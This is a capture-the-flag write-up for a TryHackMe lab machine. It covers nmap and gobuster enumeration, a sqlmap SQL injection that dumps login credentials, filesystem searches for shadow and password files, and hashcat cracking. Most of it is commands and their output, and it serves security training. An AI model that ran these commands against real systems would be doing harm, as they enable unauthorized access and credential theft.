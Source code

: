 # The Cod Caper
> 4lch3my | June 27, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP`
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

Now, we can use `SQLmap` to locate any SQL files/folders on this machine. To do this, we can run the follwing command: `sqlmap -u http://MACHINE_IP/administrator.php --forms --dump`. The `-u http://MACHINE_IP/administrator.php` option specifies the target URL of the web application. Replace `MACHINE_IP` with the actual IP address or hostname of the machine hosting the web application. The `/administrator.php` represents the specific page or endpoint being targeted for the SQL injection attack. The `--forms` option instructs sqlmap to identify and analyze HTML forms on the target page. And the `--dump` option tells sqlmap to retrieve and dump the data from the database tables that are vulnerable to the SQL injection attack. The tool will attempt to extract sensitive information such as usernames, passwords, and other data stored in the vulnerable database.

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```

And there we go. We have a found suspected admin username/password pair.

##### 5. Command Execution

Log in with credentials above to /administrator.php
Run: ls
run: find / 2>>/dev/null | grep -i shadow
run: find / 2>>/dev/null | grep -i pass
run: cat /var/hidden/pass

##### 10. Finishing the job

hashcat -m 1800 -a 0 password_hash1 /usr/share/wordlists/rockyou.txt